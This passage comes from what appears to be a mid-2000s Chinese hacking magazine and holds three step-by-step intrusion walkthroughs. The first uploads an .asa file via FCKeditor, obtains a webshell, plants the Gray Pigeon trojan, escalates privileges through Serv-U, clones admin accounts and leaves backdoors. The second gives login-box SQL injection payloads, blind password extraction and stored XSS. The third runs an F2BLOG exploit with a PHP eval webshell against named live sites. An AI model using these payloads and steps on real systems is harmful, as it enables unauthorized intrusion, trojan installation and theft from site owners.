Content-Disposition: form-data; name="NewFile"; filename="D:\pic.asa"
Content-Type: text/plain

……后面的次要信息已省略，具体代码在附件里
```用 NC 提交，显示如下：

```text
D:\>nc tetarget.com.cn 80 <2.txt
HTTP/1.1 200 OK
Date: Xxx, xx xxx 200x xx:xx:xx GMT
Server: Microsoft-IIS/6.0
X-Powered-By: ASP.NET
Content-Length: 2445
Content-Type: text/html
Cache-control: private
......中间省略 N 多英文，具体信息在附件里
D:\web\tegr\upload\2006\6\2006061519202020854.asa<script type="text/javascript">
window.parent.OnUploadCompleted(0,"/upload/2006/6/2006061519202020854.asa","2006061519202020854.asa",""); </script>
D:\>
```

yeah！功夫不负有心人，成功了！再配张图作证明，如图 9。



新的上传漏洞就被我这样一点技术含量都没有的小黑黑弄出了水面。高兴的同时，我们发现，返回的数据中还有 web 的绝对路径，晕，怎么会这样？太不应该了吧！兴奋之余，马上用海阳 ASP 木马的客户端连接，如图 10，成功地得到了 webshell，如图 11。





浏览了一下文件后，根据服务器的具体情况，利用 webshell 的上传功能把有针对性配置的灰鸽子弄上去了。然后立刻从工具箱里搜出了 serv-u 6.0 aspx 版的提权工具，上传到它的 web 目录后，尝试用它来执行安装我们的灰鸽子，看看管理员是否勤于修补第三方软件的漏洞，如图 12。



一般来说，图中的 Name、PWD、Port 保持默认不变（变的情况请大家查看《非安全》以前的关于 serv-u 提权的文章），只要在 cmd 后面的框框里填入我们上传的灰鸽子的路径和名称，（比如图中所示，我的鸽子放在它服务器的 D:\web\targ\ 目录下，名称是 huigezi.exe）然后按 start，若漏洞存在，就能以系统管理员权限去安装我们的鸽子。结果，哈哈，等着我们的鸽子上线了……

后面的工作是克隆管理员账号（以后要是我们的鸽子有什么问题可以用终端登录管理），留高级后门。再发一封信给管理员，告知漏洞，提醒他修补。最后当然是做擦屁屁的事啦，小菜云：账号怎么克隆？“屁屁”怎么擦？答曰：多看《非安全》自然就会明白，由于这已偏离了本文找漏洞的目的，故不提。

> （文章中用到的工具抓包工具 WSE、海阳 CS、3389 连接工具以及 SerU 本地权限提升 aspx 版和文章中提到的具体代码收录在光盘中）

> **编辑点评：**  
> FCKeditor 这个关于上传 ASA 后缀的漏洞其实早就有了，但都是在 IE 里面直接修改扩展名为 .asa 就可以上传成功的，也就可以直接得到 WEBSHELL 了。但是看到作者的这篇文章，我还是要选刊，原因是作者能真正地去面对问题，分析解决问题，能对问题进行针对性的分析，只有这样，才能更快地提高。

## 注入、跨站、击垮中韩秀留言簿

樱花浪子 [I.S.T]

- 从本文中你可以学到：
- 一款留言本的漏洞分析
- 体验在登录框中完成注射

“中韩秀免费留言簿 v3.0 修正版”是一套比较简单、安全方面还算可以的留言本，至少不会让只会使用工具的菜菜们有所利用。当我花了一个多小时看完关键部分代码的时候终于发现了漏洞。

### 一、注入

有问题的文件是首页文件 default.asp，这个注入产生不是在地址栏上，所以用工具是注入不了的，当然从菜菜成为高手学会手动注入是必须的一关呀，今天就带大家温习一下，先来看看关键代码，如下：

```html
<tr>
  <td width="102" height="25" align="right">邮箱地址：</td>
  <td width="198" height="25"><input name="email" type="text" id="email">
```

```html
<input name="login" type="hidden" value="yes"></td>
</tr>
<tr>
  <td height="25" align="right">访问密码：</td>
  <td height="25"><input name="password" type="password" id="password"></td>
</tr>
```

这个邮箱地址对应的是什么变量呢？我们看看图 1。下面直接搜索“email”看看它是怎么进数据库的，看到如下代码：

```asp
if request.form("login")="yes" then
set rs=server.createobject("adodb.recordset")
sql="select * from book where xx='"&request.form("email")&"' and password='"&request.form("password")&"' order by id desc"
rs.open sql,conn,1,1
代码略……
```

没有经过过滤，而直接用 request.form("email") 取值后就进入数据库了。这个变量在登录框里，所以我们构造的注入语句也在登录框里，其实方法早被牛人们用烂了，献丑献丑。在图 1 的“邮箱地址”上我们先输入“' or 1=1 or '1'='1”，密码为空，返回了如图 2 的页面。因为这个留言本只能查看自己的留言，而不能看别人的留言，在查看自己的留言时需要留言密码。我们再试试“' or 1=2 or '1'='1'”，返回了如图 1 的页面，也就是没有成功，两次不一样。呵呵，注入产生了。





在本地测试成功后，直接对它的“老家”测试了一下。那我们怎么构造注入语句呢？先来看看它的密码长度吧。因为登录这个留言本的管理页面不需要管理用户名，直接打上管理密码就可以进。在邮箱地址构造如下语句：“' or 16=(select len(password) from admin) or '1'='1'”，这是看管理密码是不是 16 位的，如果登录成功说明是 16 位的，结果失败了，又把 16 换成 32 试了一下，也失败。难道不是 MD5 加密的？最后提交：“' or 6=(select len(password) from admin) or '1'='1'”，终于登录成功，也就说明密码是 6 位的。



知道了密码长度，下面开始猜密码吧。提交：“' or 97>(select asc(mid(password,1,1)) from admin) or '1'='1'”，这是看第一位密码是不是小于 ASC 码的“a”，如果成功说明小于“a”。那么就可能是数字密码。因为数字的 ASC 码是“48-57”，是小于 97 的。结果返回如图 1 所示的页面，看来是大于“a”的，那么从“b”开始猜吧。提交：“' or 98=(select asc(mid(password,1,1)) from admin) or '1'='1'”

“'1'='1'”没有成功，把 98 换成 99 的时候终于成功地猜出第一位密码。猜二位密码把 password,1,1 改成 password,2,1 就可以了。花了近一个小时，终于把六位密码全猜出来了，进入了后台，见图 3。

### 二、跨站

本来在图 1“您的姓名”、“您是来自”等地方写上“<script>alert("樱花浪子")</script>”在查看自己留言的时候跨站没有成功，看了一下代码后才知道 savedata.asp 这个文件是处理我们提交留言的。看着关键代码，如下：

```asp
xm=Fields("name").Value         '取得客户端的用户名
xb=Fields("sex").Value          '取得客户端的性别
dw=Fields("from").Value
xx=Fields("email").Value        '取得信箱
zy=Fields("homepage").Value
nr=Fields("content").Value
pw=Fields("password").Value
refile=Fields("refile").Value
ip=Request.ServerVariables("REMOTE_ADDR")
nowtime=now()
sj=cstr(year(nowtime))+"-"+cstr(month(nowtime))+"-"+cstr(day(nowtime))+" "+cstr(hour(nowtime))+":"+right("0"+cstr(minute(nowtime)),2)+":"+right("0"+cstr(second(nowtime)),2)

set rs=server.createobject("ADODB.recordset")   '创建数据库的 recordset 对象
rs.Open "SELECT * FROM Book Where id is null",conn,1,3
rs.addnew
无关代码……

rs("xm")=xm   '执行 recordset 对象的命令
rs("xb")=xb
rs("xx")=xx
rs("zy")=zy
rs("dw")=dw
rs("nr")=nr
rs("sj")=sj
rs("ip")=ip
rs("password")=pw
```

“Fields”是干什么用的，让百度告诉我们吧，原来 Fields 是数据集合，根本不会过滤我们提交的值，在注入处密码进入后台的时候跨站产生了，如图 4 所示，跨站成功。



最后总结一下，由于后台太简单了，试了很多方法还是没有得到 WEBSHELL，但对于想挂马的朋友来说，目的已经达到了。最后欢迎大家到《黑客手册》的论坛和我交流，我的 ID 是樱花浪子。

（作者做的演示动画收录在光盘中）

## 编辑点评：

在登录框里面完成手工注射，一来可以扩展思维，别天天拿着自动检测工具到处探测；二来可以温习一下久违的手工注射，感觉还是不错的。你要是想更加深入地了解漏洞，那就老老实实地搞清楚程序流程，搞清楚具体原理吧。

## F2BLOG 漏洞练练看



- 从本文中你可以学到：
- F2BLOG 漏洞利用
- 漏洞的利用工具使用

F2BLOG 博客是一套 PHP+MYSQL 的博客程序，可以说这个程序从安全方面和美工方面都不错，我曾经还用过一段时间，最近网上惊爆其出现漏洞，而且得 WEBSHELL 的步骤很简单，引起我的好奇，下面菜菜们和我一起来看怎么利用吧。

我们先来寻找一下目标，因为官方在 11 号已经更新了 1.1 版，所以我们在 google 以“F2BLOG v1.0 build 08.20”来搜索 1.0 版本的，这样搜出来的基本上都是有漏洞的了，我们会发现有很多使用这个程序的网站，如图 1 所示。

这里我们随便找一个来测试，像 www.346.idv.tw/blog（台湾的），我们把利用工具都放在同一目录，exp.php（漏洞利用程序）里的内容我们可以进行修改，比如：

```php
$shell = "http://".$server.$blogpath."cache/hacklu.php"; //需要得到的 WEBSHELL 的名字
$evilcode="fputs(fopen('cache/hacklu.php','w+') //在 cache 中写入我们的 Webshell
```

这里的 cache 是可写的目录，我们可以把 hacklu.php 改成自己的文件名。

```php
'<?@eval($_REQUEST[hacklu])?>Orz';
```

这是一句话的 PHP 木马，密码也可以自己设，然后进入 CMD 下执行：php exp.php www.3546.idv.tw /blog/

注意在 www.3546.idv.tw 和 /blog/ 有一空格，如图 2 所示。

稍等一会儿就会在 CMD 的底部看见：View Your shell: http://www.3546.idv.tw/blog/cache/hacklu.php 这样的信息，那么恭喜你，成功了，如图 3 所示。

下面我们取这个 WEBSHELL，拿出 lanker 微型 PHP+ASP 管理器去连接 http://www.3546.idv.tw/blog/cache/hacklu.php，密码就是上面设置的 hacklu，就会成功，如图 4 所示。

接下来我们再传个大的 PHP 木马，在 lanker 微型 PHP+ASP 管理器里选择上传文件，记得把文件路径（不填为当前目录）去掉。提交后会提示我们：upfile.php php OK! Orz，再访问一下 http://www.3546.idv.tw/blog/cache/php.php 成功得到了 WEBSHELL。如图 5 和图 6 所示。

这个漏洞危害是比较大的，官方在 11 号已经发布了补丁，使用这套博客程序的朋友赶紧去打补丁吧，最后欢迎大家来 1steam.cn 的论坛和我交流。

（文章中用到的漏洞利用程序 exp.php 和作者使用的 ASP+PHP 两用 Shell 连接端已经收录在光盘中）





